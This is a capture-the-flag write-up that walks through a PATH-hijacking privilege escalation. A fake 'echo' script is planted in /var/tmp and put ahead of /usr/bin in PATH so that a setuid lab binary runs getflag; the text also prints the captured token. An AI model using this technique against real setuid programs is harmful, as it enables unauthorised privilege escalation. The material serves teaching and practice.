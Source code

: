 1. Ls the home

>> -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

We have a file with the -s instead of a -x in the owner column, this means that the program will have flag03 permission no matter the user who launched the program.

2. scp the program to decompile in dogbolt : 

https://dogbolt.org/

``c
int main()
{
    unsigned int v0;  // [bp-0xc]
    unsigned int v1;  // [bp-0x8]

    v0 = getegid();
    v1 = geteuid();
    setresgid(v0, v0, v0);
    setresuid(v1, v1, v1);
    return system("/usr/bin/env echo Exploit me");
}
``

3. We can see that the echo is not called through the absolute path.
Hence we can create our own echo to launch the getflag command and add the path of this script before the /usr/bin where the original echo is located.

4. creation of the personnalized echo command : 

``echo "getflag" > /var/tmp/echo``

And addition of the path /var/tmp to the PATH env variable:

``export PATH=/var/tmp:$PATH``

5. Adding execution permission on our prgm : 

``chmod +x /var/tmp/echo``

6. Launching level03

<< ``./level03``
>> ``Check flag.Here is your token : qi0maab88jeaj46qoumi7maus``

1. Connecting to flag03 and launching getflag

``su level03``
``qi0maab88jeaj46qoumi7maus``
